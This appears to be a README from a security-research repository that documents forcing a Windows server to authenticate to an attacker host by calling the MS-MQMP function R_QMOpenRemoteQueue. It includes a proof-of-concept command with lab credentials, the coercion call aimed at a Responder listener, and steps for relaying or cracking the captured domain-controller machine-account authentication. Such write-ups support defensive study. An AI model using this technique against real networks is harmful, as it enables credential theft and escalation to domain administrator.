# MS-MQMP - Remote call to R_QMOpenRemoteQueue (opnum 2)

## Summary

 - **Protocol**: [[MS-MQMP]: Message Queuing (MSMQ): Queue Manager Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/8e379aa2-802d-4fcc-b6a6-6203e4606fa9)

 - **Protocol UUID**: fdb3a030-065f-11d1-bb9b-00a024ea5525

 - **Protocol version**: 1.0

 - **SMB Named pipe**: ``

 - **Function name**: [`R_QMOpenRemoteQueue`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/47482511-3c4a-4d7e-8edb-46715e89e4af)

 - **Function operation number**: `2`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-MQMP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/8e379aa2-802d-4fcc-b6a6-6203e4606fa9) protocol (with uuid `fdb3a030-065f-11d1-bb9b-00a024ea5525` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-MQMP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/8e379aa2-802d-4fcc-b6a6-6203e4606fa9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-MQMP]: Message Queuing (MSMQ): Queue Manager Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/8e379aa2-802d-4fcc-b6a6-6203e4606fa9) and allows to call RPC functions of this protocol. We will then call the remote [`R_QMOpenRemoteQueue`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/47482511-3c4a-4d7e-8edb-46715e89e4af) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_QMOpenRemoteQueue('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT R_QMOpenRemoteQueue(
   [in] handle_t hBind,
   [out] PCTX_OPENREMOTE_HANDLE_TYPE* pphContext,
   [out] DWORD* pdwContext,
   [in, unique] QUEUE_FORMAT* pQueueFormat,
   [in] DWORD dwCallingProcessID,
   [in] DWORD dwDesiredAccess,
   [in] DWORD dwShareMode,
   [in] GUID* pLicGuid,
   [in] DWORD dwMQS,
   [out] DWORD* dwpQueue,
   [out] DWORD* phQueue
 );
```

## References

 - Documentation of protocol [MS-MQMP]: Message Queuing (MSMQ): Queue Manager Client Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/8e379aa2-802d-4fcc-b6a6-6203e4606fa9

 - Documentation of function `R_QMOpenRemoteQueue`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/47482511-3c4a-4d7e-8edb-46715e89e4af